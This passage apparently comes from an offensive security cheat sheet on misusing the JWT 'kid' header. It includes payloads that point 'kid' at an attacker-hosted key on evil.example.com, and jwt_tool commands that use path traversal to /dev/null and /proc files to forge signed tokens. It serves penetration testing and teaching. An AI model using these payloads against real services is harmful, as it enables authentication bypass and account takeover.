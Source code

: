 [IANA's JSON Web Token Claims](https://www.iana.org/assignments/jwt/jwt.xhtml)


### JWT kid Claim Misuse

The "kid" (key ID) claim in a JSON Web Token (JWT) is an optional header parameter that is used to indicate the identifier of the cryptographic key that was used to sign or encrypt the JWT. It is important to note that the key identifier itself does not provide any security benefits, but rather it enables the recipient to locate the key that is needed to verify the integrity of the JWT.

* Example #1 : Local file
    ```json
    {
    "alg": "HS256",
    "typ": "JWT",
    "kid": "/root/res/keys/secret.key"
    }
    ```

* Example #2 : Remote file
    ```json
    {
        "alg":"RS256",
        "typ":"JWT",
        "kid":"http://localhost:7070/privKey.key"
    }
    ```

The content of the file specified in the kid header will be used to generate the signature.

```js
// Example for HS256
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  your-256-bit-secret-from-secret.key
)
```

The common ways to misuse the kid header:
* Get the key content to change the payload
* Change the key path to force your own
    ```py
    >>> jwt.encode(
    ...     {"some": "payload"},
    ...     "secret",
    ...     algorithm="HS256",
    ...     headers={"kid": "http://evil.example.com/custom.key"},
    ... )
    ```

* Change the key path to a file with a predictable content.
  ```ps1
  python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""
  python3 jwt_tool.py <JWT> -I -hc kid -hv "/proc/sys/kernel/randomize_va_space" -S hs256 -p "2"
  ```
